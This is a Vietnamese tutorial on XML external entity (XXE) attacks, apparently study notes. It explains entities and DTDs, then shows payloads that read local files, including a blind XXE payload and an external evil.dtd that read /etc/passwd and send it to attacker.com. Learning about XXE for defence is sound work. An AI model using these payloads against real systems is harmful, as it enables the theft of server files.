


# **XXE là gì?**
## *XML*
- Kha khá giống HTML nhưng có sự khác nhau ở chỗ:
    * HTML dùng cho data representation (hiển thị nội dung trang web)
    * XML thường được dùng chủ yếu cho data transportation và data storage
- Ví dụ về XML:
```xml
    <?xml version="1.0"?>
    <!-- XML Declaration: khai báo metadata, trong TH này là phiên bản -->
    <Person> <!-- Root element -->
        <Name>John</Name> <!-- Child element -->
        <Age>20</Age> <!-- Child element -->
    </Person>
```

## *XML Entity*
- Nó giống như biến, dùng để ***lưu trữ các giá trị***
- Mấy cái entity này được định nghĩa (defined) ở trong cái gọi là ***Document Type Definition*** (DTD)
- Ví dụ về entity:
```xml
    <?xml version="1.0"?>
    <!DOCTYPE Person [
        <!ENTITY name "John">
    ]>
    <!-- Entity được tạo trong DOCTYPE, cái này được XML parser tự hiểu là DTD -->
    <Person>
        <Name>&name;</Name> <!-- Entity "name" được chèn ở đây -->
        <Age>20</Age>
    </Person>
```
- Có 3 loại entity:
    * `General`: giống bên trên. Cái này phổ biến dùng để ***test XXE***
    * `Parameter`: các entity kiểu này ***chỉ được phép nằm trong DTD***. Công dụng chính của nó là ***tạo ra một entity*** có giá trị là ***một entity khác***. Cái này phổ biến dùng để ***khai thác XXE***. Ví dụ về `parameter entity`:

    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE XXE [
        <!ENTITY % parameter_entity "<!ENTITY general_entity 'somethingelse'>">
        %parameter_entity; <!-- Tại dòng này, ta tham chiếu tới giá trị của parameter_entity để có được giá trị của nó là một entity khác -->
    ]>
    <pwn>&general_entity;</pwn>
    
    <!-- Cái bên trên sẽ tương đương với cái bên dưới -->

    <?xml version="1.0"?>
    <!DOCTYPE XXE [
        <!ENTITY % parameter_entity "<!ENTITY general_entity 'somethingelse'>">
        <!ENTITY general_entity 'somethingelse'>
    ]>
    <pwn>&general_entity;</pwn>
    ```
    * `Predefined`: là các entity được định nghĩa trước, dùng để thay thế các ký tự đặc biệt

        VD: `&x3C;` là entity thay thế cho ký tự `<`
- Ngoài ra, entity còn được dùng để ***lấy giá trị*** từ ***local file***, hoặc thậm chí ***lấy dữ liệu từ xa*** qua mạng (thông qua URL). Những entity này được gọi là `External Entity`
- Ví dụ về `external entity`:
```xml
    <?xml version="1.0"?>
    <!DOCTYPE XXE [
        <!ENTITY subscribe SYSTEM "secret.txt">
    ]>
    <!-- Từ khóa "SYSTEM" để cho XML parser biết rằng đây là external entity. Ở đây, XML parsers lấy dữ liệu trong secret.txt và lưu nó vào trong "subsribe" -->
    <pwn>&subscribe;</pwn>
```

## *XXE*
- Viết tắt của ***XML External Entities***
- Đây là kiểu tấn công can thiệp vào quá trình xử lý XML của server
- Việc đọc được local file chỉ là một trong những hình thức khai thác của XXE
- External entity còn có thể đọc được remote file thông qua URL. Ví dụ:
```xml
    <?xml version="1.0"?>
    <!DOCTYPE XXE [
        <!ENTITY subscribe SYSTEM "<URL nào đấy>">
    ]>
    <pwn>&subscribe;</pwn>
```

# **DTD In-depth:**
- Bản chất DTD không nằm cùng data của XML và nó nằm trên cả root element. Tức DTD cũng có thể được load từ nguồn bên ngoài vào (giống entity), ví dụ như sau:
```xml
    <?xml version="1.0"?>
    <!DOCTYPE Pwn SYSTEM "http://example.com/external.dtd">
    <pwn>test</pwn>
```

- Bên trên gọi là `External DTD`. Không có entity nào được định nghĩa trong DOCTYPE 
- Nhưng do ta đang include External DTD, cái mà bên trong có tất cả các entity mình cần. Vậy nên khi nào cần dùng thì chỉ cần tham chiếu tới entity cần dùng

# **Phân loại XXE:**
## *1. In-band:*
- Mấy cái ví dụ trên đều được tính là in-band bởi vì output được trả về trực tiếp trên màn hình
## *2. Error-based:*
## *3. Out-band / Blind XXE:*
- Xét đoạn code ví dụ phân tích một payload của Blind XXE:
    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE XXE [
        <!ENTITY % passwd SYSTEM "/etc/passwd">
        <!ENTITY % wrapper "<!ENTITY send SYSTEM 'http://attacker.com/?%passwd;' 'somethingelse'>">
        %wrapper;
    ]>
    <pwn>&send;</pwn>
    ```
    * Đầu tiên, XML parser sẽ đọc declaration để lấy được version tương ứng để xử lý đoạn code
    * Sau đó nó tìm DTD trong, cái mà nằm ngay dòng thứ 2
    * Sau khi tìm được DTD, nó vào trong DTD và đọc dòng thứ 3. Ở đây, XML parser đọc nội dung trong `/etc/passwd` và sau đó lưu nó vào `passwd` entity. Đây là ***parameter entity*** bởi vì ở dòng code sau ta sẽ sử dụng đến nó, mà ***chỉ parameter entity mới được sử dụng trong DTD***
    * Ở dòng tiếp theo, ta thấy parameter entity `wrapper` có giá trị là một general entity, cụ thể là `send`
    * Ở dòng tiếp theo ta tham chiếu đến giá trị của entity `wrapper`
    * Cuối cùng trong data của XML, ta tham chiếu đến giá trị của entity `send`, đó là: `http://attacker.com/?<nội dung của file /etc/passwd>`. Khi giá trị này được tham chiếu đến, nó sẽ gửi request đến trang `http://attacker.com/` cùng với nội dung của file `/etc/passwd`
- BOOM, đấy là lý thuyết, vì payload đó không chạy được đâu, bởi vì XML có chính sách như sau:
<p align="center">
    
</p>

- Tức là, parameter entity không thể được tham chiếu bên trong markup declaration, nhưng vẫn được tham chiếu trong cùng level với markup definition
<p align="center">
    
</p>

- Nhưng mà vẫn có cách bypass điều này, đó là thông qua `External DTD`. Và toàn bộ payload trên vẫn đúng với External DTD (trong chính sách cũng nói thế). Như vậy payload sẽ có dạng sau:
    ```xml
    <?xml version="1.0"?>
        <!DOCTYPE data SYSTEM "http://attacker.com/evil.dtd">
        <pwn>&send;</pwn>
    ```
    * Bên trong file `evil.dtd` thì có nội dung y hệt bên trên kia:
    ```xml
        <!ENTITY % passwd SYSTEM "file:///etc/passwd">
        <!ENTITY % wrapper "<!ENTITY send SYSTEM 'http://attacker.com/?%passwd;' 'somethingelse'>">
        %wrapper;
    ```
- Như vậy, entity `send` nằm trong `evil.dtd` và vẫn được tham chiếu mà không bị vi phạm chính sách của XML

# **Tài liệu tham khảo:**
- [PwnFunction](https://www.youtube.com/watch?v=gjm6VHZa_8s) (chi tiết, dễ hiểu)